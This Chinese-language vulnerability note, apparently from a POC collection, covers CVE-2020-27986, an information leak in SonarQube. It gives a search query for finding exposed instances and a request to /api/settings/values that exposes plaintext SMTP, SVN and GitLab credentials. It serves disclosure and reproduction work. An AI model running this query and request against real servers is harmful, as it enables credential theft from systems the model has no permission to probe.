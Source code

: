 # SonarQube values 信息泄露漏洞 CVE-2020-27986

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以获取部分敏感信息

## 漏洞影响

```
SonarQube
```

## 网络测绘

```
app="sonarQube-代码管理"
```

## 漏洞复现

主页如下

![](./images/202202101933673.png)



漏洞POC



```plain
http://xxx.xxx.xxx.xxx/api/settings/values
```



![](./images/202202101933276.png)



可泄露的为：明文SMTP、SVN和Gitlab等敏感信息



![](./images/202202101934123.png)



## 